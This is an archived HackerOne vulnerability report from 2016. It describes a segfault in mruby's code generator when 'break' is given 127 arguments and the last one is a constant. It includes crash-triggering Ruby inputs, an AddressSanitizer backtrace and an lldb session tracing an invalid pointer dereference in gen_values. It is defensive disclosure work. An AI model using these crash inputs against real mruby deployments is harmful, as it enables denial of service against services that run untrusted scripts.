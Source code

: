 # Segmentation fault due to invalid memory access in codegen when using break with the 127th argument a constant

## Report Details
- **Report ID**: 189704
- **URL**: https://hackerone.com/reports/189704
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-12-09T03:40:49.614Z
- **Disclosed**: 2016-12-17T20:48:31.714Z

## Reporter
- **Username**: haquaman
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
Crash file is:

```
break 0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,CRASH
```

This is 126 0's, then a constant. The 0's can be anything valid, and the constant just has to be a constant. Doesn't matter if it is defined or not. 

Causes a segfault with the following backtrace:
```
ASAN:SIGSEGV
=================================================================
==813==ERROR: AddressSanitizer: SEGV on unknown address 0x0000000002ad (pc 0x00000063edfc bp 0x7ffe98e8cfe0 sp 0x7ffe98e8ce20 T0)
    #0 0x63edfb in codegen /root/mruby-fixes/mrbgems/mruby-compiler/core/codegen.c:1221:39
    #1 0x6818e5 in gen_values /root/mruby-fixes/mrbgems/mruby-compiler/core/codegen.c:821:9
    #2 0x643cae in codegen /root/mruby-fixes/mrbgems/mruby-compiler/core/codegen.c:1596:11
    #3 0x64a94d in loop_break /root/mruby-fixes/mrbgems/mruby-compiler/core/codegen.c:2853:5
    #4 0x64a94d in codegen /root/mruby-fixes/mrbgems/mruby-compiler/core/codegen.c:2001
    #5 0x64c8d8 in codegen /root/mruby-fixes/mrbgems/mruby-compiler/core/codegen.c:1239:7
    #6 0x67a4b9 in scope_body /root/mruby-fixes/mrbgems/mruby-compiler/core/codegen.c:720:3
    #7 0x63f3ef in codegen /root/mruby-fixes/mrbgems/mruby-compiler/core/codegen.c:1540:5
    #8 0x63d870 in mrb_generate_code /root/mruby-fixes/mrbgems/mruby-compiler/core/codegen.c:2925:5
    #9 0x5c0b4d in mrb_load_exec /root/mruby-fixes/mrbgems/mruby-compiler/core/parse.y:5723:10
    #10 0x4e437b in main /root/mruby-fixes/mrbgems/mruby-bin-mruby/tools/mruby/mruby.c:232:11
    #11 0x7fae55836ec4  (/lib/x86_64-linux-gnu/libc.so.6+0x21ec4)
    #12 0x43d116 in _start (/root/mruby-fixes/bin/mruby+0x43d116)

AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: SEGV /root/mruby-fixes/mrbgems/mruby-compiler/core/codegen.c:1221 codegen
==813==ABORTING

```

Looking through, looks like in `gen_values`, n loops up to 126 (on the constant node), so takes the first if block, val isn't set, so takes the else inside there, but `t->car->cdr` points to a invalid memory address so when `codegen` dereferences `tree`, it segfaults.

```
$ lldb ./mruby/bin/mruby crash.rb
(lldb) target create "./mruby/bin/mruby"
Current executable set to './mruby/bin/mruby' (x86_64).
(lldb) settings set -- target.run-args  "crash.rb"
(lldb) r
Process 58614 launched: './mruby/bin/mruby' (x86_64)
Process 58614 stopped
* thread #1: tid = 0x612a08, 0x000000010005c3f1 mruby`codegen(s=0x000000010101cc20, tree=0x000000000000029b, val=0) + 129 at codegen.c:1221, queue = 'com.apple.main-thread', stop reason = EXC_BAD_ACCESS (code=1, address=0x2ad)
    frame #0: 0x000000010005c3f1 mruby`codegen(s=0x000000010101cc20, tree=0x000000000000029b, val=0) + 129 at codegen.c:1221
   1218     return;
   1219   }
   1220
-> 1221   if (s->irep && s->filename_index != tree->filename_index) {
   1222     s->irep->filename = mrb_parser_get_filename(s->parser, s->filename_index);
   1223     mrb_debug_info_append_file(s->mrb, s->irep, s->debug_start_pos, s->pc);
   1224     s->debug_start_pos = s->pc;
(lldb) up
frame #1: 0x000000010006581a mruby`gen_values(s=0x000000010101cc20, t=0x00000001010170d4, val=0) + 762 at codegen.c:821
   818          }
   819        }
   820        else {
-> 821          codegen(s, t->car->cdr, NOVAL);
   822          t = t->cdr;
   823          while (t) {
   824            codegen(s, t->car, NOVAL);
(lldb) p *t->car
(mrb_ast_node) $0 = {
  car = 0x000000000000002c
  cdr = 0x000000000000029b
  lineno = 1
  filename_index = 0
}
(lldb) p n
(int) $1 = 126
(lldb) p is_splat
(int) $2 = 0
(lldb) p val
(int) $3 = 0
(lldb) q
Quitting LLDB will kill one or more processes. Do you really want to proceed: [Y/n] y

```

So this is showing that that 127th argument to break isn't set right. I printed out `t->car` for each `codegen` call, and it shows for the above, we get a the usual start (CFUNC, BEGIN, etc), then NODE_BREAK, followed by 126 NODE_INT's, then the segfault happens (`tree` points to invalid memory). 

I changed the constant to some other values, and found that `t->car` was clearly overflowing for other values, `0.0` (`NODE_FLOAT`), was always a value of `3157552`, rather than `52`. A `NODE_INT` varied, but one value was `-197952842`, not `51`. same with `NODE_STR`, `NODE_DSTR`, `NODE_REGX`, a *non-empty* `NODE_ARRAY`, a `NODE_FCALL`, `NODE_CALL`.... You get the picture. Weirdly only the `NODE_FLOAT` always kept the same value...

I've just found that a NODE_LVAR also crashes, such as this example crash file:

```
crash=1
break 0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,crash
```


Haven't got a patch for this one yet, just wanted to file it.

Cheers,

Hugh


## Attachments
No attachments
